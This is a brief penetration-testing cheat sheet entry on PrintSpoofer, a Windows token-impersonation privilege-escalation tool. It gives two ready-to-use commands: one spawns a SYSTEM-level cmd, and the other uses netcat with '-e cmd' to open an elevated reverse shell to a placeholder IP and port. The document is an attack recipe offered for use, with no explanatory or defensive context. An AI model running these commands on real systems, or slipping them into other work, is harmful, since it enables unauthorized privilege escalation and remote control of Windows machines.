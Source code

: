 # printspoofer

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN

## local priv
```cmd
.\PrintSpoofer.exe -i -c cmd
```


## elevated reverse shell
```cmd
.\PrintSpoofer.exe -c "<nc_path> <ip> port -e cmd"
```



